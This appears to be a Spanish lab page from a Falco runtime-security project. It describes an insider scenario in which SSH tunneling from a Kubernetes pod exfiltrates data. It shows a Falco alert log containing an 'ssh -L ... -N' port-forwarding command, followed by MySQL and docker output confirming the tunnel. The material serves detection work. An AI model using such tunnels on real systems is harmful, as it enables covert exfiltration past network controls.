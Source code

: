# Scenario A: Data Exfiltration via SSH Tunneling i


> SSH Port forwarding


En un entorno corporativo seguro, un empleado malintencionado busca evadir las restricciones impuestas por la compañía y establecer un canal de comunicación no autorizado desde un pod de Kubernetes. Para lograrlo, configura una conexión <strong>SSH tunneling</strong> con el objetivo de exfiltrar información de manera encubierta.

Aprovechando el acceso al pod, el atacante ejecuta comandos para establecer un <strong>túnel SSH reverso</strong> hacia una instancia de <em>Compute Engine</em> en <strong>Google Cloud Platform (GCP)</strong> bajo su control. Esta técnica le permite no solo extraer datos sensibles desde la infraestructura interna, sino también redirigir el tráfico de la subred en la que se encuentra el pod. Como resultado, el atacante obtiene acceso indirecto a otros recursos internos que, de otra manera, estarían protegidos por controles de red y políticas de seguridad.

El uso de <strong>SSH tunneling</strong> en este contexto representa una amenaza significativa, ya que permite eludir firewalls y sistemas de monitoreo convencionales. Sin una solución de seguridad efectiva como <em>Falco runtime security</em>, este tipo de actividad podría pasar desapercibida, comprometiendo la integridad y confidencialidad de la información corporativa.

<img src="../../assets/ssh-port-forwarding.webp" align="center" width="35%" height="35%"/>

<!-- <div style="text-align: center;"> -->


Redirigir el puerto 3306 (MySQL) del servidor remoto (34.27.180.215) al pod a través de una conexión SSH. En otras palabras, cualquier conexión a localhost:3306 en el pod se enviará al puerto 3306 del servidor remoto.



## Scenario


Si la comunicación va a través del túnel SSH, el tráfico inicial sale del pod de EKS hacia la instancia de GCP cifrado por SSH. Al llegar a la instancia de GCP, el túnel SSH la descifra y la reenvía localmente a la instancia de MySQL.


Se puede observar que se levanta la regla en Falco.

    {"hostname":"falcox33-falco-obsec-s6nzm","output":"01:30:39.455536915: Warning ssh tunneling (user=<NA> user_loginuid=-1 program=ssh command=ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133 ots-yODc2NGQ@10.10.10.133 pid=3598 file=<NA> parent=bash gparent=containerd-shim ggparent=systemd gggparent=<NA> container_id=b83b3f40cab2 image=sha256) k8s.ns=falco-custom-lab k8s.pod=sneaky container=b83b3f40cab2","priority":"Warning","rule":"ssh tunneling/ssh port forwarding","source":"syscall","tags":["T1572","container","host","mitre_command_and_control","network"],"time":"2025-02-22T01:30:39.455536915Z", "output_fields": {"container.id":"b83b3f40cab2","container.image.repository":"sha256","evt.time":1740187839455536915,"fd.name":null,"k8s.ns.name":"falco-custom-lab","k8s.pod.name":"sneaky","proc.aname[2]":"containerd-shim","proc.aname[3]":"systemd","proc.aname[4]":null,"proc.cmdline":"ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133 ots-yODc2NGQ@10.10.10.133","proc.name":"ssh","proc.pid":3598,"proc.pname":"bash","user.loginuid":-1,"user.name":"<NA>"}}



Se puede corroborar la conexión desde el pod a través del tunnel local hacia la base de datos. Esta dirección IP pertenece a la red de Docker

      mysql> SHOW PROCESSLIST;
      +----+-----------------+------------------+------+---------+---------+------------------------+------------------+
      | Id | User            | Host             | db   | Command | Time    | State                  | Info             |
      +----+-----------------+------------------+------+---------+---------+------------------------+------------------+
      |  5 | event_scheduler | localhost        | NULL | Daemon  | 1614663 | Waiting on empty queue | NULL             |
      | 29 | root            | localhost        | NULL | Query   |       0 | init                   | SHOW PROCESSLIST |
      | 32 | root            | 172.18.0.1:60616 | test | Sleep   |       3 |                        | NULL             |
      +----+-----------------+------------------+------+---------+---------+------------------------+------------------+



En efecto el direccionamiento corresponde a 

root@draios:/home/diegoposada# docker network ls
NETWORK ID     NAME                DRIVER    SCOPE
4b4eb1ddee9e   bridge              bridge    local
9c75882f79cc   db-server_default   bridge    local
d90c1546bdb2   host                host      local
859b691afc51   none                null      local



root@draios:/home/diegoposada# docker inspect db-server_default | grep -i subnet
                    "Subnet": "172.18.0.0/16",



